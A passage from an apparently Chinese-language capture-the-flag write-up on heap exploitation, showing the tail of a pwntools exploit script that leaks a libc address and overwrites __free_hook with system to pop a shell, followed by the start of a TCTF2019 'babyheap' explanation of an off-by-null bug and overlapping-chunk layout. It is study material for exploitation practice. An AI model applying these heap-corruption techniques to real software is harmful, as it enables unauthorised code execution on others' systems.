 ```py
    Delete(1)
    Delete(4)
    Edit(4,'\x70\x96')
    Add('5'*8)#5
    Add(p64(0)+p64(0x21)+'a'*0x10+p64(0)+p64(0x21))#6

    Delete(0)
    Show()
    p.recvuntil("Maybe a release of ubuntu!\n")
    libc_base = u64(p.recvline().strip("\n").ljust(8,'\x00')) - libc.sym['__malloc_hook'] - 0x10 - 0x60
    log.success("libc base => " + hex(libc_base))
    free_hook = libc_base + libc.sym['__free_hook']

    Delete(1)

    Delete(4)

    Edit(4,p64(free_hook)[:-2])

    Add("/bin/sh\x00")#7
    Add(p64(libc_base+libc.sym['system']))#8
    #gdb.attach(p)
    Delete(7)
    p.interactive()

exp()
```

## TCTF2019

### babyheap

#### 前言

补充一道前两天做2.29的题目，理解跟2.23和2.27的不同

#### 程序逻辑

依然是菜单题，功能有Add、Update、Delete、View

Add的size范围为0到0x1000，Update存在off-by-null，程序保护全开

#### 漏洞利用

正常有off-by-null我们要构造overlapping chunk，一般来说构造的堆分布如下：

chunk0->0x88  
chunk1->0x68  
chunk2->0xf8  
chunk3(in case to consolidate)
